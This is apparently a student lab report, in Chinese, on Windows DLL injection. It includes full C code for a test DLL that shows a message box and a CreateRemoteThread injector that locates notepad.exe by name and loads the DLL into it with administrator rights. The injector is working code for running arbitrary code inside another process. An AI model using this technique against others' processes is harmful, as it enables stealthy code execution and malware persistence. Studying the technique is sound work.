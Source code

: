 # dll注入攻击

## 1 实验要求

1. 查文档，研究远程线程方式注入dll的实例代码的实现原理。
2. 运行实例代码，向一个目标程序（比如notepad.exe)注入一个我们自行编写的dll，加载运行。
3. 整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid。

## 2 实验环境

- Visual Studio 2019 
  - 选择`Debug x86`
- 选择32位 Notepad ，位于路径`C:\Windows\SysWOW64`
  - ~不要被名字迷惑~
  - 64位 Notepad 位于路径`C:\Windows\System32`

## 3 实验原理

## 4 实验过程

### 4.1 dll的编写

- 在vs2019下新建项目`baselib`，其中`base.c`要自己编写dll文件的入口函数DllMain。
  - dll存在入口点函数，系统会在线程或进程加载或者卸载dll的时候调用入口点函数，用于执行简单的初始化工作和清理任务，如在创建线程时设置线程本地存储和在线程终止的时候清除本地存储。
  - 将dll和c运行时库链接时，运行时库可能会提供入口点函数，而且允许单独提供初始化函数。
  - 自己提供入口点，需要参考DllMain函数
  - 在`base.c`中，`lib_function`函数需要导出。当进程加载时会进入`DLL_PROCESS_ATTACH`，并且执行里面的代码。
    ```c
    // 能用c就用c 而不用c++
    // 不需要写main函数，因为main函数在exe中
    // 只需要提供基础功能
    #include <Windows.h>
    int WINAPI lib_function(char*);
    // 会被导出
    int WINAPI lib_function(char* msg) {
        // do some works
        MessageBoxA(0, 
            "msg from base lib", 
            msg, 
            MB_OK);
        return 0;
    }
    BOOL WINAPI DllMain(
        HINSTANCE hinstDLL,  // handle to DLL module
        DWORD fdwReason,     // reason for calling function
        LPVOID lpReserved)  // reserved
    {
        // Perform actions based on the reason for calling.
        switch (fdwReason)
        {
            // 进程加载了Dll后会调用函数，所以调用了两次
        case DLL_PROCESS_ATTACH:
            // Initialize once for each new process.
            // Return FALSE to fail DLL load.
            Sleep(1000);
            lib_function("load");
            break;

        case DLL_THREAD_ATTACH:
            // Do thread-specific initialization.
            break;

        case DLL_THREAD_DETACH:
            // Do thread-specific cleanup.
            break;

        case DLL_PROCESS_DETACH:
            // Perform any necessary cleanup.
            break;
        }
        return TRUE;  // Successful DLL_PROCESS_ATTACH.
    }
    ```

- 在同`base.c`的目录下建立模块定义文件`exp.def`。
    ```c
    LIBRARY   baselib
    EXPORTS
        lib_function
    ```
- 右键项目，选择`重新生成`，寻找新生成的`baselib.dll`的位置(通过生成时间判断)，一般位于整个解决项目的`Debug`目录下，用于后面的步骤。
  <img src="imgs/rebuild.png" width=70%>

### 4.2 远程线程劫持方式

- 使用[github上的开源项目](https://github.com/fdiskyou/injectAllTheThings)中的CreateRemoteThread()方法实现
  - 在vs2019下新建项目`dllinject`
  - 添加头文件为`fheaders.h`，参考项目中的[fheaders](https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/fheaders.h)的用法。
    ```c
    #pragma once
    #include <stdio.h>
    #include <Windows.h>
    #include <tlhelp32.h>
    // Technique 1: CreateRemoteThread
    DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId);
    ```
  - 添加`dllinject.c`文件，参考项目中的[t_CreateRemoteThread.cpp](https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/t_CreateRemoteThread.cpp)用法。其中`findPidByName`函数是用于进程遍历，使得攻击程序可以自己遍历进程得到目标程序的pid。`main`函数中dll应该为**绝对路径**。
    
    ```c
    #pragma warning(disable:4996)
    #include <stdio.h>
    #include <Windows.h>
    #include <tlhelp32.h>
    #include "fheaders.h"

    // 用于进程遍历，使得攻击程序可以自己遍历进程得到目标程序的pid 
    DWORD findPidByName(char* pname)
    {
        HANDLE h;
        PROCESSENTRY32 procSnapshot;
        h = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        procSnapshot.dwSize = sizeof(PROCESSENTRY32);

        do
        {
            char s[1000];
            strcpy(s, (char*)procSnapshot.szExeFile);
            //printf("%s id:%d return:%d\n", s, procSnapshot.th32ProcessID, strcmp(s, pname));
            if (!strcmp(s, pname))
            {
                DWORD pid = procSnapshot.th32ProcessID;
                CloseHandle(h);
    #ifdef _DEBUG
                printf("[+] PID found: %ld\n", pid);
    #endif
                return pid;
            }
        } while (Process32Next(h, &procSnapshot));

        CloseHandle(h);
        return 0;
    }

    DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
    {
        // Calculate the number of bytes needed for the DLL's pathname
        DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);

        // Get process handle passing in the process ID
        HANDLE hProcess = OpenProcess(
            PROCESS_QUERY_INFORMATION |
            PROCESS_CREATE_THREAD |
            PROCESS_VM_OPERATION |
            PROCESS_VM_WRITE,
            FALSE, dwProcessId);
        if (hProcess == NULL)
        {
            printf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
            return(1);
        }

        // Allocate space in the remote process for the pathname
        LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
        if (pszLibFileRemote == NULL)
        {
            printf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
            return(1);
        }

        // Copy the DLL's pathname to the remote process address space
        DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
        if (n == 0)
        {
            printf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
            return(1);
        }

        // Get the real address of LoadLibraryW in Kernel32.dll
        PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
        if (pfnThreadRtn == NULL)
        {
            printf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
            return(1);
        }

        // Create a remote thread that calls LoadLibraryW(DLLPathname)
        HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
        if (hThread == NULL)
        {
            printf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
            return(1);
        }
        else
            printf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));

        // Wait for the remote thread to terminate
        WaitForSingleObject(hThread, INFINITE);

        // Free the remote memory that contained the DLL's pathname and close Handles
        if (pszLibFileRemote != NULL)
            VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);

        if (hThread != NULL)
            CloseHandle(hThread);

        if (hProcess != NULL)
            CloseHandle(hProcess);

        return(0);
    }

    int main() {
        DWORD pid = findPidByName("notepad.exe");
        // 下面的路径是位于debug下的baselib.dll 需要绝对路径
        demoCreateRemoteThreadW(L"E:\\CreateThread-Example\\Debug\\baselib.dll", pid);
        getchar();
        return 0;
    }
    ```

### 4.3 向目标程序注入dll

- 运行32位的Notepad
- 以管理员身份运行`dllinject.c`生成的`dllinject.exe`可执行程序，发现打开notepad.exe的时候会弹窗，证明dll已经注入到notepad.exe中。
  <img src="imgs/dllinjection.gif">
  
## 5 实验问题以及解决

- 在vs2019下运行`dllinject.c`，得到了进程的PID，但是在获得进程的句柄出现失败，即`HANDLE hProcess = OpenProcess()`返回为空。
  - 解决方法：以管理员的方式运行`dllinject.exe`
  - 原因是：以vs2019运行的权限过低，无法实现dll注入

## 6 实验总结


## 7 参考资料

- [DllMain教程](https://docs.microsoft.com/zh-cn/windows/win32/dlls/dynamic-link-library-entry-point-function)
- [dllinjection教程](https://github.com/fdiskyou/injectAllTheThings)